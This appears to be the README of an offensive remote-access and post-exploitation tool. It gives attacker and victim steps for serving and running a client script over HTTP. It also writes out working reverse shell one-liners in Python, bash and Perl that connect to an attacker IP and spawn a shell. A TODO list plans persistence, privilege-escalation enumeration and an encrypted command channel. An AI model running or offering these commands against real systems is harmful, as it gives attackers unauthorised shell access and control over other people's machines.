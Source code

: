 # Assumptions
- python3 exists on the server

# Steps using HTTP web server
1. (on attacker): python3 http_server.py
2. (on victim): wget <ATTACKER_IP>:8000/victim_client_<ATTACKER_IP>.py
3. (on attacker): python3 listener.py -v <VICTIM_IP>
4. (on victim): python3 victim_client_<ATTACKER_IP>.py

# Steps using reverse shell one-liner
1. (on attacker): python3 listener.py -v <VICTIM_IP>
2. Reverse shell one-liners (on victim)
    - [python2]: python -c 'import pty;import socket,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("<ATTACKER_IP>",9001));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);pty.spawn("/bin/bash")'
    - [bash]: bash -i >& /dev/tcp/<ATTACKER_IP>/9001 0>&1
    - [perl]: perl -e 'use Socket;$i="<ATTACKER_IP>";$p=9001;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/bash -i");};'

# TODO
- (Low) Create several implementations for looping reverse shells in case python isn't available
  - (Low) Implement "persisting" looping reverse shell install
- (Low) Implement menu with list of playbooks that can be run for enumeration, privesc, etc
    - (Low) Have menu items show if an error occured of if the playbook results are already available
    - (Low) Show details about found results and what steps to take next
    - menu['show']['network']['all'] = function
    - show enumerate
      [ ] 1. Check SUID binaries
    - use enumerate 1
    - show network
      [ ] 1. Local IPv4s
      [X] 2. Connected subnets
      [ ] 3. Reachable online hosts
    - show network 2
- (Low) Upload and run linpeas.sh, save locally. Make it as part of the menu of things to run.
- (Low) Some kind of client/server written on python which allows me to send commands to the victim via an encrypted channel and he just run code locally. Implement with as little dependencies as possible (will require at least python3). Since python3 is required, maybe this isn't a great idea. Might as well just send commands to the victim directly via pwntools.
- (Low) If long running commands aren't working, echo a magic string and run recvuntil that magic string is encountered
- (Low) Better logging with colors and stuff!

